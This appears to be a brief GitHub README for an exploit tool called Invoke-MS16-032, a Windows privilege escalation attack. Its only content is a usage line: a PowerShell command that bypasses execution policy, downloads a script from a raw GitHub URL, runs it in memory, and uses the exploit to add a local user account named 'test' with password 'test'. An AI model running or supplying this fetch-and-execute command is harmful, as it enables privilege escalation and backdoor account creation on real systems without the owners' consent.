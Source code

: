# Tools

# Invoke-MS16-032 
create account Example:
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/DannyChen2023/Tools/main/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user test test /add'"
